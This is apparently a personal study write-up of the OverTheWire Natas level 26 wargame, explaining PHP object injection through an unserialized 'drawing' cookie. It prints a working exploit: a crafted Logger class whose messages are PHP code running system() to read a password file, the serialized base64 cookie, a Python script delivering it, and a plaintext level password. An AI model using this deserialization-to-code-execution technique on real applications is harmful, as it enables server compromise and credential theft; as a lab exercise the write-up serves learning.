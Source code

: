 
2024-07-26 12:51

Source: #natas #web 

Tags: [[PHP]] 

PHP object injection through the serialized and uncivilized PHP functions can be super dangerous especially **if there's complete user control over what data is being serialized**

PHP code from the source shows that it is using object oriented programming as it has a class called `logger`

`__construct()` and `__destruct()` are defined in `logger` 
these double underscore functions are PHP magic object functions so they are necessary and built-in for PHP.

the code further draws from user given x and y coordinates, it does this via a drawing cookie 
source code looks like - 
```
if (array_key_exists("drawing", $_COOKIE)){
    $drawing=unserialize(base64_decode($_COOKIE["drawing"]));  
}
```
`unserializing` data that we have complete control over is a huge vulnerability 
it's using our session ID as the actual location that it's loading the image file from

Since the website is using the session id to name `png` files we can try injecting code but it doesn't work 
on returning the cookies after drawing something we see a drawing cookie along with the session cookie. The drawing cookie is [[base64]] encoded + Url encoded in order to get around this we use - 
```
import base64
from urllib.parse import unquote
.
.
base64.b64decode(unquote(session.cookies['drawing'])))
```
in the output we get PHP serialized data

this class logger we can actually change what these variables are and what they do, and if we give that to the drawing cookie and the PHP application will like unserialize that data for us, it'll load up this logger and we'll try and write that message and we may be able to take advantage of what we actually write to a file and we can essentially get some code on the server and maybe run our own PHP code because we are writing to a file with this.

create a php file and copy the snippet of `logger `class 
```
<?php
class Logger{
        private $logFile;
        private $initMsg;
        private $exitMsg;
        
        function __construct($file){
            // initialise variables
            $this->initMsg="<?php system('cat /etc/natas_webpass/natas27'); ?>";
            $this->exitMsg="<?php system('cat /etc/natas_webpass/natas27'); ?>";
            $this->logFile = "img/winner.php";
//above we create a custom initalise message and log it to file we can access later
// we write to img because it is trying to load out of that image directory 

			// write initial message
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$this->initMsg);
            fclose($fd);
        }
        
        function log($msg){
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$msg."\n");
            fclose($fd);
        }
        
        function __destruct(){
            // write exit message
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$this->exitMsg);
            fclose($fd);
        }
    }
$object = new Logger();
echo(base64_encode(serialize($object)));
?>
```
- make sure you run this code with php version 7 only as it only runs on that version
in order to run php directly on kali  - 
```
php7.0 file_name.php 2>/dev/null
```
the output will be a base64 string 
we set that b64 string to our drawing cookie 

```
import requests
username = 'natas26'
password = 'cVXXwxMS3Y26n5UZU89QgpGmWCelaQlE'

url = 'http://natas26.natas.labs.overthewire.org/'
session = requests.Session()
response = session.get(url,auth=(username,password))

response.cookies['PHPSESSID']

session.cookies['drawing'] = 'Tzo2OiJMb2dnZXIiOjM6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czoxNDoiaW1nL3dpbm5lci5waHAiO3M6MTU6IgBMb2dnZXIAaW5pdE1zZyI7czo1MDoiPD9waHAgc3lzdGVtKCdjYXQgL2V0Yy9uYXRhc193ZWJwYXNzL25hdGFzMjcnKTsgPz4iO3M6MTU6IgBMb2dnZXIAZXhpdE1zZyI7czo1MDoiPD9waHAgc3lzdGVtKCdjYXQgL2V0Yy9uYXRhc193ZWJwYXNzL25hdGFzMjcnKTsgPz4iO30='

response = session.get(url+'?x1=0&y1=0&x2=55&y2=500',auth=(username,password))
print(response.text)
```

after doing this we encounter a fatal error, we know that this means that our code successfully executed we know that we got that object to unserialized

we then change the `get` request to fetch to winner.php file that we manipulated 
```
response = session.get(url+'img/winner.php',auth=(username,password))
```
### References
https://www.youtube.com/watch?v=IgxhtJQL-gY
php magic methods - https://www.php.net/manual/en/language.oop5.magic.php
php version 7.0.33 - https://onlinephp.io/